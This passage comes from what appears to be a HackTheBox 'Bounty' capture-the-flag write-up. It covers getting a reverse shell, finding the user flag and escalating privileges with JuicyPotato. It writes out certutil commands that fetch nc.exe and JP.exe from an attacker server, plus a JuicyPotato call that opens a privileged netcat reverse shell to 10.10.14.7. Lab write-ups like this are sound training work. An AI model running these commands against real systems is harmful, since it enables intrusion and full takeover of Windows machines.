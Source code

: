![shell_received](GitHubv2/HackTheBox/EASY/Bounty/screenshots/shell_received.png)

✅ Reverse shell obtained as `merlin`.

---
## 4. Privilege Escalation

### 4.1 User Flag

The flag is hidden but retrievable with:

```bash
dir -Force
```

![user_flag](GitHubv2/HackTheBox/EASY/Bounty/screenshots/user_flag.png)

🏁 **User flag obtained**

---
### 4.2 Escalation with JuicyPotato

Check privileges:

```bash
whoami /priv
```

![user_priv](GitHubv2/HackTheBox/EASY/Bounty/screenshots/user_priv.png)

We have **SeImpersonatePrivilege**.

Upload **JuicyPotato (JP.exe)** and `nc.exe`:

```bash
python3 -m http.server 80
certutil.exe -f -urlcache -split http://10.10.14.7:80/nc.exe
certutil.exe -f -urlcache -split http://10.10.14.7:80/JP.exe
```

![nc_&_JP_uploaded](GitHubv2/HackTheBox/EASY/Bounty/screenshots/nc_&_JP_uploaded.png)

Start listener:

```bash
nc -lvp 4646
```

Execute JuicyPotato:

```bash
.\JP.exe -t * -l 1337 -p C:\Windows\System32\cmd.exe -a "/c C:\Windows\Temp\Privesc\nc.exe -e cmd 10.10.14.7 4646"
```

![executing_JP](GitHubv2/HackTheBox/EASY/Bounty/screenshots/executing_JP.png)
